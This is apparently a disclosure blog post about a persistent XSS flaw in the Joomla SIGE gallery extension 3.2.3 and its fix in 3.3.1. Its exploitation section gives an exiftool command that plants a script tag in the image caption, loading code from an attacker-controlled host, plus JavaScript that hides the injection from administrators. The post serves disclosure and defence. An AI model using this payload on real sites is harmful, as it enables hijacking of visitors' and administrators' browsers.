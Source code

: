 ```yaml
---
layout: post
title: Persistent XSS via image metadata
---
```


Joomla SIGE is a popular extension for creating image galleries within the [Joomla CMS](https://www.joomla.org/). An injection vulnerability was discovered that enables execution of a [Cross Site Scripting (XSS)](https://excess-xss.com/) attack. The extension does not sanitize the text that it retrieves from the image header. Once published online the the image will cause the browser to load malicious content.

# Vulnerability Details
The version I tested against is 3.2.3 from the Joomla extensions page [0].

In the `htmlImageAddTitleAttribute` function, the title of the image is incorporated into the the HTML:

On line 1669 of sige.php:
```php
if($this->plugin_parameters['image_info'])
{
    $html .= '&lt;strong&gt;&lt;em&gt;' . 
                $image_title . 
                '&lt;/em&gt;&lt;/strong&gt;';

    if(!empty($image_description))
    {
           $html .= ' - ' . $image_description;
    }
}
```

The variable `image_description` is not escaped properly and allows any character to be sent to the user. The value of this variable is obtained via the `getimagesize` function in `iptcInfo` function on line 1515:

```php
private function iptcInfo($image, 
                          &$image_title, 
                          &$image_description)
{
  $iptc_title = '';
  $iptc_caption = '';
  $info = array();

  getimagesize(JPATH_SITE.$this->root_folder .
                           $this->images_dir . '/' . $image, 
               $info);
  ...
    $iptc_caption = utf8_encode(
                       html_entity_decode($data['caption'], 
                       ENT_NOQUOTES));
  ...
  if(!empty($iptc_caption))
  {
    $image_description = $iptc_caption;
  }
}
```

The the source of the data of the image description is not escaped and allows the HTML special characters to make their way to the user's browser.

# Exploitation
In order to take advantage of this vulnerability the attacker needs to prepare an image with malicious content:

```sh
exiftool '-Caption-Abstract=">
              <script src="http://192.168.0.101:8000/xss.js" 
                      id="boom">
              </script><img s="' 
          image.jpg
```

This can be done by rewriting the `Caption-Abstract` header object in a JPEG file using the exif command line tool. In the value, the attacker places a script tag which loads JavaScript from an attacker controlled web server. Since the content will be injected into an `<a />` html tag, it is necessary to close and reopen the double quotes.

Next, the attacker will need to place the image into the gallery. There are multiple scenarios for how this could happen:

- A gallery may allow the public or low-privileged members to upload images.
- An attacker may already have another vulnerability which allows them to place an image into the gallery directory. 
- The gallery administrator might inadvertently download a malicious image from somewhere on the internet and expose everyone who views the gallery.

Once the image description is displayed to the user, the attacker can launch attacks against the browser or anything else within the context of the user - which could be the Joomla administrator.

The problem is that injecting this HTML messes up the DOM of the page, making the exploit not very stealthy. And so, the first thing that the `xss.js` will do is clean up. Note that the clean up code has to protect from cleaning up twice because the EXIF caption is inserted twice by the SIGE plugin.

```javascript
if(window.booms == undefined) {
  window.booms = "true";

  setTimeout(function() {
    // remove the first one.
    window.boom.remove();
    var parent = window.boom.parentElement.parentElement;

    // remove the second one.
    window.boom.remove();

    var imgs = parent.getElementsByTagName("img");
    var as = parent.getElementsByTagName("a");

    as[0].title += imgs[0].getAttribute("s");
    imgs[0].remove();

    imgs[0].setAttribute("src", imgs[1].getAttribute("src"));
    imgs[1].remove();
    
    // console.info("Now do evil things :-)");
  }, 200);
}
```

Even though this isn't stricly necessary, clean up is good so that users don't tip off the developers or administrators. This clean up code will remove the script tags and the corrupted image tags but it will maintain a thread of execution to throw browser exploits [1], javascript key loggers [2] or bitcoin miners [3].

# The fix
To fix the vulnerability, the image description field needs to be sanitised in the `htmlImageAddTitleAttribute` function, before it reaches the HTML content. PHP provides the htmlspecialchars function to do this. Thanks to Viktor Vogel of Kubik-Rubik for fixing and releasing an update very quickly [4]! 

```php
    private function setImageInformation(&$fileInfo)
    {
        ...
        if ($this->pluginParameters['iptc'] == 1) {
            $this->iptcInfo();
        }

        $this->imageInfo = array_map('htmlspecialchars', 
                             $this->imageInfo);
    }
```

In my tests I was able to confirm that version 3.3.1 is not vulnerable to this exploit. The above code on line 1321 maps over all the data retrieved from the image and applied the `htmlspecialchars` function. This ensures that everything from the EXIF header is properly escaped before it is presented to the user.

---

0 - [Joomla! Extensions Directory](https://extensions.joomla.org/extension/sige/)

1 - [A Peek Inside the ‘Eleonore’ Browser Exploit Kit](https://krebsonsecurity.com/2010/01/a-peek-inside-the-eleonore-browser-exploit-kit/)

2 - [Javascript-Keylogger](https://github.com/JohnHoder/Javascript-Keylogger)

3 - [brominer.com](https://brominer.com/)

4 - [SIGE Joomla Extension](https://joomla-extensions.kubik-rubik.de/sige-simple-image-gallery-extended)